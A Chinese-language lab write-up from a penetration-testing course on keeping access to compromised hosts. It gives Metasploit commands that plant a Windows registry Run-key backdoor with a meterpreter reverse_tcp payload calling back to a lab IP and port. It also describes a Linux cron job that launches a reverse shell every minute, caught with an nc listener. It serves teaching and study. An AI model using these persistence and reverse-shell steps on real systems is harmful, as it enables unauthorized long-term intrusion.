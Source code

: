 ```yaml
---
title: 实验六--权限维持技术
category: 学习笔记
tags: 
  - 网络渗透测试技术
  - 权限维持
published: 2023-12-07
permalink: /archives/wv34hxwx/
---
```

## 实验目的

1、学会使用工具写入windows注册表后门，使用linux计划任务进行权限维持。

## 实验任务

1、在获取windows主机权限后，写入注册表后门进行权限维持，并检验注册表后门的效果

2、在linux系统中写入计划任务后门，并检验计划任务是否正常运行

## 实验步骤

## windows 权限维持 注册后门

在获得shell后background退出
选择注册表后门模块

```text
use exploit/windows/local/persistence
```

然后选择好攻击模块设置参数，攻击机IP和端口，还有设置会话

```plaintext
set payload windows/x64/meterpreter/reverse_tcp  //这句可以不写，因为默认攻击模块就是这个
set lhost 192.168.100.133
set lport 4455
set session 1
run
```

![](./images/202312071143184.png)
在靶机的对应目录下找到了vbs文件
目录：`C:\Users\win7\AppData\Local\Temp\`
![](./images/202312071143185.png)

win+r打开运行输入regedit回车即可打开注册表
然后在 `KCU\Software\Microsoft\Windows\CurrentVersion\Run`下即可看到注册表也成功写入

![实验六_image_3](./images/202312071143186.png)回到攻击机设置msf，让两个红框的内容一致，执行run之后，重启靶机，即可发现，在登录了靶机之后msf自动上线成功

```
use multi/handler
set lhost 192.168.100.133
set lport 4455
run
```

![实验六_image_4](./images/202312071143187.png)

## linux权限维持   计划任务反弹shell

使用crontab命令进行反弹shell。crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹

（下面是以Ubuntu18.04为例）
1.服务开启
service cron start
2.编辑计划任务
crontab -e -u 用户名
3.查看计划任务
crontab -l -u 用户名
4.删除计划任务：
crontab -r -u 用户名

创建反弹shell脚本，vim  shell.sh
里面的 ip和端口号要和攻击机对应

![实验六_image_5](./images/202312071143188.png)

保存后还要更改文件的权限

![实验六_image_6](./images/202312071143189.png)
然后添加计划任务，需要root权限
vim /etc/crontab
设置反弹shell任务每分钟执行一次
要设置好文件的绝对路径

![实验六_image_7](./images/202312071143190.png)

kali使用nc启动监听，即可监听到shell

![实验六_image_8](./images/202312071143191.png)
